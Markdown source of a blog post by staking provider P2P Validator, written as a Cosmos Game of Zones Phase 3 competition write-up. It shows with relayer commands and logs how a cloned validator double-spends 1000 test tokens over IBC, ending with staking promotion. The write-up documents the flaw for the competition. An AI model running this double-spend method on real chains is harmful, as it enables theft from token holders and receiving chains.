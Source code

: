 ```yaml
---
title: "Cosmos' Game of Zones Phase 3: Double Spend via a Double Sign"
description: "For Game of Zones Phase 3 we show how malicious validators can double spend via IBC"
date: 2020-06-05
thumbnail: 'https://i.imgur.com/A5bq7Fh.png'
heroImage: 'https://i.imgur.com/A5bq7Fh.png'
layout: Post
category:
  - cosmos
authors:
  - vshvsh
company:
 - p2p

---
```

# Cosmos' Game of Zones Phase 3: Double Spend via a Double Sign

We'll show how malicious validators (or validator keys thieves) can double-spend via IBC transfers using vanilla Tendermint, cosmos-sdk and relayer software.

For an experiment we have two chains: `p2p-org-3` and `responsible-3`. On p2p-org-3 there are 1000, no more and no less, of very valuable tokens with `scarce` denom. Using our trick we can make `responsible-3` accept a total sum of `2000scarce` via a channel.

## Double spend via a double sign step by step

To double spend we: 

1. Open a channel from p2p-org-3 to responsible-3
2. Stop a single validator of p2p-org-3, replicated it in two copies (let's call them `p2p-org-3.1` and `p2p-org-3.2`, though they still have an original chain-id of `p2p-org-3`) and start again in two different exemplars.

```
p2p-org-3.2$ rly q bal p2p-org-3
100000000000ptp,1000scarce
p2p-org-3.2$ rly q bal responsible-3
100000000000root,996000rsp,10transfer/hvigvvmjhcqwerty/ptp
```

3. Send 1000 scarce from `p2p-org-3.1`to `responsible-3`.
```
p2p-org-3.1$ rly tx transfer p2p-org-3 responsible-3 1000scarce true $(rly ch addr responsible-3)
I[2020-06-04|23:36:45.775] ✔ [p2p-org-3]@{68672} - msg(0:transfer) hash(13628DFA68099121C323DB7C2369489E1AFB71C2737B3D92B1BACAF5A9CFBB01)
I[2020-06-04|23:36:56.725] ✔ [responsible-3]@{68908} - msg(0:update_client,1:ics04/opaque) hash(50F3730A339AE60A1FDB4FADF484EA8FDC870E9E46C8362BEE328D7D324FDDE8)
p2p-org-3.1$ rly q bal p2p-org-3
99999999500ptp
p2p-org-3.1$ rly q bal responsible-3
100000000000root,995500rsp,10transfer/hvigvvmjhcqwerty/ptp,1000transfer/hvigvvmjhcqwerty/scarce
```

4. Switch to `p2p-org-3.2`'s terminal - there we still have `1000scarce`

```
p2p-org-3.2$ rly q bal p2p-org-3
100000000000ptp,1000scarce
p2p-org-3.2$ rly q bal responsible-3
100000000000root,995500rsp,10transfer/hvigvvmjhcqwerty/ptp,1000transfer/hvigvvmjhcqwerty/scarce
```


5. Send a bogus transfer (`100ptp`) from `p2p-org-3.2` to `responsible-3` - it fails on `responsible-3` but we bump `p2p-org-3.2`'s packet count by one to be able to send further transfers succesfully.

```
p2p-org-3.2$ rly tx transfer p2p-org-3 responsible-3 100ptp true $(rly ch addr responsible-3)
I[2020-06-04|23:39:07.369] ✔ [p2p-org-3]@{68700} - msg(0:transfer) hash(EB8CAE3CDE96FF9073B54B5E6F70C43B83DA13A30E06D833AA107CEB94EE6279)
I[2020-06-04|23:39:14.274] ✘ [responsible-3]@{0} - msg(0:update_client,1:ics04/opaque) err(client:15:couldn't verify counterparty packet commitment: key mismatch on operation #0: expected commitments/ports/transfer/channels/hvigvvmjhcqwerty/packets/3 but got commitments/ports/transfer/channels/hvigvvmjhcqwerty/packets/2: packet commitment verification failed)
```

6. Succesfully send 1000 scarce from `p2p-org-3.2`to `responsible-3`.

```
p2p-org-3.2$ rly tx transfer p2p-org-3 responsible-3 1000scarce true $(rly ch addr responsible-3)
I[2020-06-04|23:40:02.589] ✔ [p2p-org-3]@{68711} - msg(0:transfer) hash(83DFA4FB75D22220ECD94F134D8A8AE5BC0D0075D2DA6021B8DA6C4688E28787)
I[2020-06-04|23:40:12.237] ✔ [responsible-3]@{68947} - msg(0:update_client,1:ics04/opaque) hash(DD11048F41B6D0955EAC84D311DEF5DAD9A3F446398A59293C82A62D84F6B506)
p2p-org-3.2$ rly q bal p2p-org-3
99999998900ptp
gaia@ibc3-p2p-validator-2:/home/deploy$ rly q bal responsible-3
100000000000root,995000rsp,10transfer/hvigvvmjhcqwerty/ptp,2000transfer/hvigvvmjhcqwerty/scarce
```

We think that if there's ever a real attack with stolen keys or malicious validators involved, it'll be carried out with a combination of running a fork + using modified software that can issue arbitrary IBC packets (like our own RootChain).

-----
*The best way to support our contribution is to [stake ATOM with P2P Validador](https://p2p.org/cosmos?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post).*

---

[P2P Validator](https://p2p.org/?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post) is a world-leading non-custodial staking provider securing more than $40 million by over 1000 delegators/nominators across 15+ top-notch networks. We've been validating in Cosmos Hub since the first day of mainnet. P2P Validator provides comprehensive due-diligence and invested its own funds in ATOM in 2017 intending to support Cosmos network in the long term.

**Web:**[ https://p2p.org](https://p2p.org/?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post)

**Stake ATOM with us:** [p2p.org/cosmos](https://p2p.org/cosmos?utm_source=blog&utm_medium=economy&utm_campaign=phase3_post)

**Twitter:**[ @p2pvalidator](https://twitter.com/p2pvalidator)

**Telegram:** [https://t.me/P2Pstaking](https://t.me/P2Pstaking)

